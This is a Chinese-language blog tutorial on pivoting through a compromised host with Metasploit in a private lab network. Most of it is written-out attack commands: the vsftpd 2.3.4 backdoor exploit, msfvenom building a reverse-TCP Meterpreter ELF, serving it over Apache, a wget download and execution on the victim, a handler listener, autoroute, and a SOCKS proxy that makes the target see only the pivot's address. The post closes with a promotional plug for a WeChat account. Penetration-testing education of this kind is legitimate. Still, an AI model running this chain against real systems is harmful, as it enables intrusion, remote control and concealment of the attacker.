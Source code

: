 ```yaml
---
layout: post
category: curleyg-code-hack
title: Meterpreter以被控制的计算机为跳板渗透其他服务器
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Meterpreter以被控制的计算机为跳板渗透其他服务器
lock: need
---
```


# Meterpreter以被控制的计算机为跳板渗透其他服务器

攻击机：Kali 192.168.75.10

跳板： Metasploitable2 192.168.75.130

目标机： Windows Server 2012 192.168.75.140

这里无法通过Kali(192.168.75.10)主机直接访问目标机(192.168.75.140)，目标机只能通过跳板(192.168.75.130)访问，这里Kali(192.168.75.10)已经成功渗透跳板(192.168.75.130)主机，需要将已渗透主机(192.168.75.130)设置为跳板来访问目标机(192.168.75.140)。

如果直接通过攻击机(192.168.75.10)访问目标机(192.168.75.140),会出现如下错误：

![img](https://img-blog.csdnimg.cn/20190114124851544.png)

这里，跳板(192.168.75.130)拥有连接目标机(192.168.75.140)权限。因此需要一些方法将我们对目标机(192.168.75.140)发起的请求通过跳板(192.168.75.130)转发出去，需要的这种技术方法就是跳板技术。

这里，我们首先要渗透跳板(192.168.75.130)主机。具体步骤如下：

开启MSF

```
msfconsole
```

## 扫描指定主机的服务和端口

```
nmap -sV -p 21,22,25,80,110,443,445 192.168.75.130
```

如果要存入MSF的数据库，则：

```
db_nmap -sV -p 21,22,25,80,110,443,445 192.168.75.130
```

## 列出在目标端口上运行的服务

```
services
```

## 过滤服务，只显示开启的服务

```
services -u
```

## 列出数据库中所有的主机

```
hosts
```

## 漏洞攻击

```
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 192.168.75.130
set RPORT 21
show payloads
set payload cmd/unix/interact
exploit
```

注：所有操作都是在MSF终端下

**这里，我们继续将Shell控制升级为Meterpreter命令行。**

在攻击机Kali上重新开启一个终端：

## 生成反弹木马

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST 192.168.75.10 LPORT 4444 -f elf > backdoor.elf
```

注：elf是Linux系统下的默认扩展名

## 启动Kali上的Apache服务，并将backdoor.elf放置到服务器中

```
service apache2 start
mv backdoor.elf /var/www/html/
```

这样，就可以让目标系统从我们的计算机中下载这个木马文件了。

## 在目标机上下载木马文件

切换到第6步的终端，执行命令：

```
wget http://192.168.75.10/backdoor.elf
```

即将木马文件下载到了目标机上

## 在新开启的终端上执行如下命令

```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.75.10
set LPORT 4444
exploit
```

## 在目标机上运行木马文件

切换到第6步的终端，执行命令：

```
chmod 7777 backdoor.elf
./backdoor.elf
```

## 查看反弹的Meterpreter终端

回到新开启的终端上查看，此时，我们看到已经反弹回Meterpreter命令行了。

接下来，就可以在Meterpreter终端进行操作了。

下面，我们需要执行autoroute脚本，并使用-s将脚本的参数设定为目标主机(192.168.75.140)的IP地址，这样我们就可以在已经被我们渗透的跳板机(192.168.75.130)上添加一条到达目标主机(192.168.75.140)的路由。

## 添加路由

```
run autoroute -p
run autoroute -s 192.168.75.140
run autoroute -p
```



以攻击者(192.168.75.10)的角度看，现在需要启动一个可以将请求通过Meterpreter发送给目标的模块。可以选择auxiliary/server/socks4a这个模块。

## 启动监听

在攻击机(192.168.75.10)上执行如下命令：

```
use auxiliary/server/socks4a
show options
set SRVHOST 127.0.0.1
set SRVPORT 1080
run
```

## 配置攻击机(192.168.75.10)/etc/proxychains.conf

添加下面一行配置：

```
socks4 127.0.0.1 1080
```



![img](https://img-blog.csdnimg.cn/20190114125602716.png)

## 配置Forefox代理

![img](https://img-blog.csdnimg.cn/20190114125618848.png)

再一次打开目标服务器(192.168.75.140)的限制目录下的网页。

![img](https://img-blog.csdnimg.cn/20190114125638407.png)

这里，我们就可以访问了。

接下来，我们访问下目标服务器(192.168.75.140)服务器的IP记录器，如下：

![img](https://img-blog.csdnimg.cn/20190114125656890.png)

可以看到是跳板(192.168.75.130)的IP地址，不管我们对目标服务器(192.168.75.140)做了什么，对目标服务器(192.168.75.140)眼中这一切都是跳板机(192.168.75.130)做的。然而，我们的真实IP确是192.168.75.10。

# 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
